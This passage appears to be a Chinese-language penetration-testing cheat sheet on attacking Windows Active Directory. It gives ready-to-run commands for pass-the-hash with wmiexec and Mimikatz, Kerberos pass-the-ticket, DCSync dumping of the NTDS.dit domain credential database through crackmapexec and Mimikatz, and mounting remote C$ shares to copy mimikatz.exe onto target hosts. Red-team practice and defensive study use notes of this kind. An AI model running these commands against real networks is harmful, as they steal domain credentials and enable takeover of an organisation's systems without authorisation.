 `wmiexec.exe -hashes <LM>:<NTLM> <domain>/<username>@<ip> <command>`

Mimikatz：
- must dump hashes first：`sekurlsa::pth/user:Administrator/domain:atomic.local/ntlm:cc36cf7a8514893efccd3324464tkg1a`

- Kerberos Ticket attack
`kerberos::ptt Administrator@krbtgt-atomic.LOCAL.kirbi`

### DcSync

- 本地址用者資料庫 C:\windows\system32\config\SAM
- 網域使用者資料庫 C:\Windows\NTDS\NTDS.dit
    - DcSync 就是把 NTDS.dit 的資料導出來
- cme：`cme smb <dc_ip> -H <hash> -d <domain> -u <username> --ntds`
-  Mimikatz
    -  切到 Domain Admin 帳戶 (會彈出新的 cmd 視窗)
    1. `privilege::debug`
    2. `sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<ntlm>`
    3. 再啟用後：`lsadump::dcsync /all`


### 網路芳鄰
`\\<ip>\c$`

### 掛載遠端磁碟
```
- 掛載遠端磁碟
net use \\<ip>\C$ "<password>" /user:<username>
- 查看已掛載的遠端磁碟
net use
- Copy 檔案
copy mimikatz.exe \\<ip>\C$
```

### AS-REP Roasting

### PowerShell Remoting
> - PowerShell Remoting only allows connections from members of the Administrators group
> - Members of the Remote Management Users group can access WMI resources over management protocols

PowerShell Remoting (and WinRM) listen on the following ports:
- HTTP: 5985
- HTTPS: 5986

#### tools：
- https://github.com/Hackplayers/evil-winrm

# AD
- DC (Domain Controller)
- RODC (Read-Only Domain Controller)
